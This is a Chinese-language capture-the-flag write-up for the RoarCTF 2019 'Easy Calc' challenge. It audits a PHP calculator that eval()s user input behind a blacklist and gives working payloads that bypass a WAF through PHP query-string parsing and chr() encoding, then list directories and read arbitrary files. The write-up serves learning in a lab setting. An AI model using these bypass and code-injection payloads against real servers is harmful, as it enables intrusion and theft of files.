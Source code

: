 # [RoarCTF 2019]Easy Calc

打开靶机，是一个提供计算的页面，查看源码，发现提示，同样发现了计算的JS脚本源码,如下

```html
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```

其中有`calc.php?`，访问得到php代码，进行审计

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];//num传参
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
    	//黑名单，被过滤的内容，因为单、双、反引号都被过滤了，所以命令执行不能用
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }//遍历黑名单元素，若$str中存在黑名单元素，则不让执行后面的eval()
        }
        eval('echo '.$str.';');//构造想要执行的php代码
}
?>
```

尝试`calc.php?num=phpinfo()`，结果403禁止访问，但如果传的参为数字可以正常回显，这里存在一个WAF，我们这里可以利用PHP字符串解析特性绕过，学到了，因为命令执行的函数不能用，这里用scandir()函数读取目录信息，但单双引号被过滤了，不能用`“/”`，这里又用到`chr(47)`绕过，因为不能直接输出数组数据，我们用到var_dump()函数打印，`calc.php? num=var_dump(scandir(chr(47)))`，发现`f1agg`这个文件，然后就是读取文件，这里同样用chr()绕过，成功拿到flag

```
calc.php? num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

# [极客大挑战 2019]Http
